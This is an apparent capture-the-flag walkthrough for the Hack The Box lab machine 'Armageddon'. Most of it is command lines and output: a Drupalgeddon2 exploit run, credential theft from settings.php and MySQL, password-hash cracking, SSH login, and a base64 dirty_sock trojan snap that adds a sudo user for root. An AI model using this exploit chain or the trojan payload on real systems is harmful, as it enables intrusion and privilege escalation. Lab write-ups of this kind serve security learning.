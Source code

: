 ![Armageddon.PNG](/assets/Machines/Easy/Armageddon/Armageddon.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.233
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.233
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Visit web page

![web.PNG](/assets/Machines/Easy/Armageddon/web.PNG)


* Try with defaults credentials like
```bash
admin:admin
admin:root
root:root
```

4. Search any exploit for **Drupal Armageddon** [Exploit](https://github.com/dreadlocked/Drupalgeddon2)

```bash
┌──(root㉿kali)-[/home/…/Machines/Easy/Armageddon/Drupalgeddon2]
└─| ruby drupalgeddon2.rb http://<IP Machine>
```

**Output**
```bash
armageddon.htb>> whoami
apache
```

5. Search for any setting file. (This files sometimes contains credentials)
```bash
armageddon.htb>> find / -name '*settings*' | grep -vE 'denied'
```

**Output**
```bash
/var/www/html/modules/update/update.settings.inc
/var/www/html/sites/default/default.settings.php
/var/www/html/sites/default/settings.php
/var/www/html/themes/garland/theme-settings.php
```

6. In `/var/www/html/sites/default/settings.php` we found credentials to login in mysql

![creds.PNG](/assets/Machines/Easy/Armageddon/creds.PNG)

7. Use **mysql** to execute commands liek this:
```bash
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'SHOW DATABASES;'
```

**Output**
```bash
information_schema
drupal
mysql
performance_schema
```

8. Search credentials of other user
```bash
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'USE drupal; SELECT * FROM users;'
```

**Output**
```bash
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276  1Europe/London           0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
```

9. Password of user **brucetherealadmin** is hashed, crack with john
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Armageddon]
└─| john -w=/home/kali/Desktop/rockyou.txt hash
```

**Output**
```bash
booboo
```

10. Login with ssh 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Armageddon]
└─| ssh brucetherealadmin@<IP Machine>
```

**Output**
```bash
[brucetherealadmin@armageddon ~]$
```

11. Cat flag user
```bash
[brucetherealadmin@armageddon ~]$ cat user.txt 
```

**Output**
```
d3788af678867a828ec44ab15f216ca7
```


---
---
---
### **Privileges Escalation** 💀

1. Search SUID permissions
```bash
[brucetherealadmin@armageddon root]$ sudo -l
```

**Output**
```bash
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *

```

2. Copy the **TROJAN_SNAP** part of this code [Dirty_Sock](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py)

```python
┌──(root㉿kali)-[/home/…/Machines/Easy/Armageddon/Drupalgeddon2]
└─| python -c "print('''    
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')" > trojan.snap
```

3. Copy content of `trojan.snap` and enconde in base64.
```bash
┌──(root㉿kali)-[/home/…/Machines/Easy/Armageddon/Drupalgeddon2]
└─| base64 -w 0 trojan.snap
```

4. Put the output into **tmp** directory of target machine and put execute permission and execute **trojan.snap**
```bash
[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install --devmode trojan.snap
```

5. In this moment in the machine has been created a new user `dirty_sock`
6. Migrate to new user (Password is `dirty_sock`)
```bash
[brucetherealadmin@armageddon tmp]$ su dirty_sock
Password: 
[dirty_sock@armageddon tmp]$
```

7. Convert into user root
```bash
[dirty_sock@armageddon tmp]$ sudo -i
```

**Output**
```bash
[root@armageddon ~]| whoami
root
```

8. Cat root flag
```bash
[root@armageddon ~]| cat root.txt 
ddb85324a3f97cffd9daa6c6a901802a
```